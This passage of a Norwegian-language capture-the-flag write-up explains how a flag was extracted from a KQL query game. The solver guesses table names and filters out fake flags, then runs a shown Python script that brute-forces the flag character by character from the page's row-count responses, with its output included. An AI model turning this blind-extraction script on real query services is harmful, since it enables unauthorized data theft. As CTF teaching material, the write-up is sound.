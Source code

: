 Spørringen over avslører at det er `2` tabeller i databasen. Derfor prøver vi å finne navnet ved å teste typiske navn:

* Flag
* Flags
* Users
* Roles
* Groups

Vi får treff på tabellen `Users`. Senere fant vi også ut at tabellnavn kan byttes ut med `search *` for å søke i alle tabeller. Men siden vi allerede har funnet tabellen bruker vi bare navnet på denne for å gjøre søkene raskere. Nå kan vi søke etter flagget i tabellen Users:

```sql
Users | where * contains "ept{"
```

Her får vi 28 treff. Derfor mistenker vi at det er lagt inn "fake" flags. vi begrensen søket ved å legge til `"}"` i søket:

```sql
Users | where * contains "ept{" and * contains "}"
```

Nå får vi bare ett treff, så vi kan trygt si at dette er det ekte flagget. Herifra ble det å gjette en og en bokstav i flagget helt til vi finner `"}"`:

```py
import requests
import string
import re

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "_-?!}" + string.ascii_uppercase:
            # Use replace placaolder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, { "query": query_to_run})
            if response.status_code == 200:
                # Regex match to see if there was a result
                if re.search(r'<h2>The row count for your query was \d+', response.text):
                    word += letter
                    print(word)
                    if(letter == "}"): return word
                    break
            else:
                print("error at", word)

brute("https://kqlgame.ept.gg/game", 'Users | where * contains "$$" and * contains "}"', "ept{")
```

```bash
[Running] python3 brute.py
ept{z
ept{z2
ept{z26
ept{z264
ept{z2641
...

[Done] exited with code=0 in 38.598 seconds
```
